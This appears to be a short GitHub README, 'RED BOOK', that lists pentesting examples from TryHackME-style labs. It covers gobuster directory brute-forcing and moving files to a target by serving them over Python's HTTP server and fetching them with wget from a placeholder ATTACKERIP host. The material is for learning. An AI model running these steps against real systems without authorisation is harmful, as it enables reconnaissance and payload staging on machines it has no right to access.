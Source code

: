 <h1 align="center">RED BOOK</h1>
<h2 align="center"> Short examples for pentesting/hacking</h2>
<h3 align="center"> Tryhackme and other sources</h3>

<table>
  <tr>
    <td align="left">
      <strong>GOBUSTER CRAWLER BRUTE FORCE WEBSITE PAGES</strong><br>
      Using wordlist, search for directories on webserver to detect what pages webserver have.<br>
      gobuster -u http://WEBPAGE -w WORDLIST.txt dir<br>
      -u is used to state the website we're scanning<br>
      -w takes a list of words to iterate through to find hidden pages<br>
      -dir search for directories
    </td>
  </tr>
  <tr>
    <td align="left">
      <strong>TRANSFER FILES USING HTTP</strong><br>
Start http server with Python (Win) and download files on target with wget request.<br>
On attacker (win): <br>
python3 -m http.server 1234 c:/testdir <br>            
-1234 is port where http server will listen, and in last part is directory for http server (not required)<br>
On target in CMD (win/linux/any):<br>
wget http://ATTACKERIP:1234/SOMEFILEINROOTDIR
    </td>
  </tr>
</table>

